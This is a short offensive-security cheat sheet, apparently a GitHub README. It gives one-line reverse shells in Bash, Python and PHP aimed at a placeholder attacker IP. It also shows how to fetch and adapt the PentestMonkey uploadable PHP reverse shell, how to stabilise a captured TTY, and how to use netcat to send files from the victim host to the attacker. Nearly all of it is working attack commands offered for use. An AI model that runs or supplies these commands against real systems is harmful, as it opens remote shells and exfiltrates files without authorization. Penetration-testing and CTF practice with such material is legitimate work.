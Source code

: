 - ####  Interactive FULL TTYs :

```bash
# Using python.
python3 -c "import pty; pty.spawn('/bin/bash')"

# Using script in case python doesn't exist.
script /dev/null -qc /bin/bash 
```

```bash
# Making the shell stable.
export TERM=xterm # While on remote host.
Ctrl+Z #suspend the shell.
stty raw -echo; fg
ls

#Restoring own shell after finishing with nc.
reset 
```

- ####  Scripts :

```bash
# Bash reverse shell.
export IP=xx.xx.xx.xx
export PORT=4444
sh -i >& /dev/tcp/$IP/$PORT 0>&1
```

```bash
# Python reverse shell.
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("xx.xx.xx.xx",PORT));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

```bash
# PHP reverse shell.
php -r '$sock=fsockopen("xx.xx.xx.xx",PORT);exec("sh <&3 >&3 2>&3");'
```

```bash
# Uploadable PentestMonkey PHP reverse shell.
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php reverse.php
nano reverse.php # Modify the IP address and the PORT.
```

- ####  Files Upload/Download :

* ***Sending to local machine :***

```bash
# After gaining the Reverse Shell.
export LIP=xx.xx.xx.xx # Local/Attacker Machine IP.
export LPORT=4444 # Local/Attacker PORT.

# On Local Machine.
nc -lnvp 4444 > file.txt # Set up a listener and saves output.

# On Remote Machine.
nc $LIP $LPORT < file.txt # Sends a file from remote to local.
```
